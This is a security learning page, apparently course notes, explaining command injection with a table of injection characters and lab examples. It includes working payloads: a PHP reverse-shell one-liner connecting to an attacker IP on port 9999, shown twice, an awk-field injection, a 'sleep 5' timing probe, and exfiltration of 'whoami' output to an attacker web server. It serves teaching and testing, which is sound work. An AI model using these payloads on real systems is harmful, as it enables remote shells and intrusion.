



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# CI


**Command Injection (CI)** is a vulnerability where an attacker can execute arbitrary commands on the server by injecting malicious input into a command-line interface.



This can lead to unauthorized access, data modification, or full control of the server, as attackers can execute system commands or scripts.



Validate and sanitize all user inputs, use parameterized system calls, and avoid directly passing user input to system commands.


## Injection Characters

<table><thead><tr><th width="166">Character</th><th width="149">URL-Encoded</th><th>Executed Command</th></tr></thead><tbody><tr><td><code>;</code></td><td><code>%3b</code></td><td>Both</td></tr><tr><td><code>\n</code></td><td><code>%0a</code></td><td>Both</td></tr><tr><td><code>&#x26;</code></td><td><code>%26</code></td><td>Both (second output generally shown first)</td></tr><tr><td><code>|</code></td><td><code>%7c</code></td><td>Both (only second output is shown)</td></tr><tr><td><code>&#x26;&#x26;</code></td><td><code>%26%26</code></td><td>Both (only if first succeeds)</td></tr><tr><td><code>||</code></td><td><code>%7c%7c</code></td><td>Second (only if first fails)</td></tr><tr><td><code>``</code></td><td><code>%60%60</code></td><td>Both (Linux-only)</td></tr><tr><td><code>$()</code></td><td><code>%24%28%29</code></td><td>Both (Linux-only)</td></tr><tr><td><code>#</code></td><td><code>%23</code></td><td>Both</td></tr></tbody></table>

## Examples

### In Band

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The app takes our input and passes it into a `curl` command which is then `grep`ped (Figure 1.1). We can start simple by just appending a command using `;`, but this gives no output (Figure 1.2). Next, we can try commenting out the `grep` part by using `#` (Figure 1.3).

<figure><figcaption><p>Figure 1: A basic example of a command injection attack.</p></figcaption></figure>

We can also try to achieve RCE[^1] by first checking what technology is used on the app and then getting a payload from a repository such as [PayloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php) (Figure 2).


```bash
;php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");'#
```


<figure><figcaption><p>Figure 2: Achieving RCE.</p></figcaption></figure>

### In Band (2)

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The app we need to test tracks the fleet vehicle's coordinates and calculates the distance between its current position and its destination (Figure 3).

<figure><figcaption><p>Figure 3: Undestanding the application's functionality.</p></figcaption></figure>

We have two fields that are directly inputted within the executed command. We can start by trying to manipulate the second field first (Figure 4).

```bash
# original command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}'

# our goal command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#

# the payload
222)^2))}';whoami;#

# the final command
awk 'BEGIN {print sqrt(((-111)^2) + ((-222)^2))}';whoami;#)^2))}'
```

<figure><figcaption><p>Figure 4: Executing a successful CI attack.</p></figcaption></figure>

We can achieve RCE with the same logic using the [previously used payload](./#basic) (Figure 5).


```bash
222)^2))}';php -r '$sock=fsockopen("172.31.150.94",9999);exec("/bin/sh -i <&3 >&3 2>&3");';#
```


<figure><figcaption><p>Figure 5: Achieving RCE via a CI vulnerability.</p></figcaption></figure>

### Blind


**Blind Command Injection** occurs when the attacker does not see the output of the injected commands directly. Instead, they infer the success or failure of the commands through side effects or indirect responses.


> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time we have the same Network Checker app, but the [previous attack](./#basic) does not work (Figure 6.1). Either something gets filtered, which we can check (Figure 6.2 & 6.3), or we the command is executed but we don't get any output on the front-end.

<figure><figcaption><p>Figure 6: An unsuccessful CI attack.</p></figcaption></figure>

We can try a payload that alters the app's behaviour (similar to [Blind SQLi](../sqli/blind.md)) and see if this works. This can be tested with Burp Suite's Repeater, as it shows the response time in the bottom right corner (Figure 7).

```bash
localhost?q=`sleep 5`
```

<figure><figcaption><p>Figure 7: Confirming a blind CI vulnerability.</p></figcaption></figure>

Next, we can achieve RCE[^2] by spawning up a web server and passing the desired command as a parameter (Figure 8).

```bash
http://172.31.150.94:9999/?q=`whoami`
```

<figure><figcaption><p>Figure 8: Achieving RCE via a blind CI vulnerability.</p></figcaption></figure>

[^1]: Remote Code Execution

[^2]: Remote Code Execution
